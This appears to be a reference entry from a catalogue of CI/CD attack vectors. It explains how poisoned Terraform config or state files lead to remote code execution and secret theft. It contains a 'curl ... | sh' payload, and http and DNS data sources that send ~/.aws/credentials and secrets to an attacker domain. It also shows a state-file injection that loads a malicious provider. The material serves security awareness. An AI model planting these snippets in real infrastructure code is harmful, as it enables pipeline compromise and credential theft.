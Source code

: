 ```yaml
---
title: terraform
tags:
  - cli
  - input-file
  - eval-sh
references:
- https://registry.terraform.io/providers/hashicorp/external/latest/docs/data-sources/external
- https://developer.hashicorp.com/terraform/language/resources/provisioners/local-exec
- https://developer.hashicorp.com/terraform/language/resources/provisioners/remote-exec
- https://registry.terraform.io/providers/hashicorp/http/latest/docs/data-sources/http
- https://registry.terraform.io/providers/hashicorp/dns/latest/docs
- https://registry.terraform.io/providers/offensive-actions/statefile-rce/latest
---
```


Most CI environments run `terraform init` before planning to ensure providers and modules are downloaded. This means that new changes that bring new providers, such as one or more external providers used to execute commands, Terraform will install any new providers even though they are not part of the lockfile. By default, the lockfile will be modified and Terraform informs the user to commit its result.

*Normally*, during the following `terraform plan` phase, no resources are being deployed. This should only happen during the `terraform apply` phase.

## Poisoning of config files

As a prerequisite for these vectors, an attacker needs to have write access to the config files written in HCL (HashiCorp Language). Furthermore, some event needs to trigger the execution of terraform in a pipeline.

### RCE using the "external" data source

This will execute in both the `terraform plan` and `terraform apply` phase on every terraform run.

The `hashicorp/external` provider has a data resource that allows executing commands and make the output available to Terraform. The command must output valid JSON on stdout. The following definition is enough to trigger the RCE, the provider does not need to be directly declared.
```terraform
data "external" "cmd" {
  program = ["sh", "-c", "curl ... | sh >&2; echo {}"]
}
```

This was described by Alex Kaskasoli in 2021: https://alex.kaskaso.li/post/terraform-plan-rce

### RCE using the "local-exec" and "remote-exec" provisioners

This will only execute once after the creation of the resource in the `terraform apply` phase. It will only execute on later terraform runs, if the resource got deleted from the state file in the meantime.

Provisioners are meant to run bootstrapping commands after the resource they are embedded in has been created. This might be any resource, not just the `null_resource` used in the examples.

The `local-exec` provisioner can be used to run commands on the machine that executes terraform. It also allows for choosing of the binary to use with the `interpreter` argument, if needed.
```terraform
resource "null_resource" "cmd" {
  provisioner "local-exec" {
    command = "<arbitrary_shell_command_goes_here>"
  }
}
```

The `remote-exec` provisioner allows to to execute commands on a remote machine, using `ssh` or `winrm`, for which valid credentials are needed. This might allow to pivot into internal networks.
```terraform
resource "null_resource" "cmd" {
  connection {
    type     = "ssh"
    user     = "root"
    password = var.root_password
    host     = self.public_ip
  }
  provisioner "remote-exec" {
    inline = [
      "<arbitrary_shell_command_goes_here>"
    ]
  }
}
```

### Data leakage using the "http" data source

This will execute in both the `terraform plan` and `terraform apply` phase.

The `http` data source makes an HTTP GET request to the given URL and exports information about the response. We can use interpolation to extract interesting values of other objects or base64 encoded files.
```terraform
data "http" "file" {
    url = "https://<attacker_domain>?exfil=${filebase64("~/.aws/credentials")}"
}

data "http" "secret" {
    url = "https://<attacker_domain>?exfil=${aws_secretsmanager_secret_version.password.secret_string}"
}
```

This was described by xssfox in 2022: https://sprocketfox.io/xssfox/2022/02/09/terraformsupply/

### Data leakage using the data sources of the "dns" provider

This will execute in both the `terraform plan` and `terraform apply` phase.

In a very similar fashion to the `http` data source, we can send DNS requests for an attacker controlled domain and embed the values to exfiltrate in a subdomain.
```terraform
data "dns_a_record_set" "file" {
    host = "${filebase64("~/.aws/credentials")}.<attacker_domain>" 
}

data "dns_a_record_set" "secret" {
    host = "${aws_secretsmanager_secret_version.password.secret_string}.<attacker_domain>" 
}
```

This was described by Shelly Raban in 2024: https://www.tenable.com/blog/the-dark-side-of-domain-specific-languages-uncovering-new-attack-techniques-in-opa-and

## Poisoning of state files

As a prerequisite for this vector, an attacker needs to have write access to the state file. These files are traditionally stored in bucket solutions like AWS S3 or Azure Blob Storage Accounts. Oftentimes, all developers have this required write access for all buckets in the account / subscription. Furthermore, some event needs to trigger the execution of terraform in a pipeline.

### RCE using the "offensive-actions/statefile-rce" provider or a custom provider

This will execute in both the `terraform plan` and `terraform apply` phase.

If an attacker injects a fake resource referencing an arbitrary provider into the `resources` array in a state file, the next time a pipeline runs referencing that state file, terraform will download the newly referenced provider during the `terraform init` phase. This happens, because terraform wants to use the provider to destroy the injected resource.

An attacker could create their own malicious provider, or they use the community provider `offensive-actions/statefile-rce`. This provider allows to define a command that will be run during both `terraform plan` and `terraform apply` dynamically in the state file. The following snippet has to be added to the state file in the `resources` array:
```json
{
  "mode": "managed",
  "type": "rce",
  "name": "<arbitrary_name>",
  "provider": "provider[\"registry.terraform.io/offensive-actions/statefile-rce\"]",
  "instances": [
    {
      "schema_version": 0,
      "attributes": {
        "command": "<arbitrary_command>",
        "id": "rce"
      },
      "sensitive_attributes": [],
      "private": "bnVsbA=="
    }
  ]
}
```

This vector was first described by Daniel Grzelak in 2024 (https://www.plerion.com/blog/hacking-terraform-state-for-privilege-escalation) and weaponized in the `offensive-actions/statefile-rce` provider by Benedikt Haußner in the same year (https://github.com/offensive-actions/terraform-provider-statefile-rce).
